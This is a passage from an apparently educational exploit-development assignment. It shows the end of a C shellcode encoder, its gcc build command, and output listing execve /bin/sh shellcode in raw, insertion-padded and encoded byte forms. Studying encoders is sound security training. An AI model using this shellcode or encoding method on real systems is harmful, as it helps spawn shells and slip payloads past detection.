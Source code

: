 ```c
// print encoded shellcode
printf("\nEncoded shellcode\n\n");
i=0;
for (i; i < strlen(shellcode2); i++) {
       printf("0x%02x,", shellcode2[i]);
}

printf("\n\nEncoded Shellcode Length %d\n",strlen(shellcode2));
free(shellcode2);
free(buffer);
printf("\n\n");
}

```

The program above will be compiled using **gcc** as follows


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
gcc -o encode encoder.c
</pre>

Then, running the encoder will give the following result

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment4</b></span># ./enc

Shellcode:

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Shellcode Length 25


Decoded Shellcode:

0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,

Insertion shellcode

0x31,0xa9,0xc0,0x1f,0x50,0xdd,0x68,0x22,0x2f,0x9e,0x2f,0x78,0x73,0x32,0x68,0x0c,0x68,0x64,0x2f,0x74,0x62,0x84,0x69,0xf2,0x6e,0xde,0x89,0xf6,0xe3,0x93,0x50,0xf1,0x89,0xb5,0xe2,0x15,0x53,0x80,0x89,0x82,0xe1,0x93,0xb0,0xb6,0x0b,0x5d,0xcd,0x2c,0x80,0x42,

Encoded shellcode

0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39,
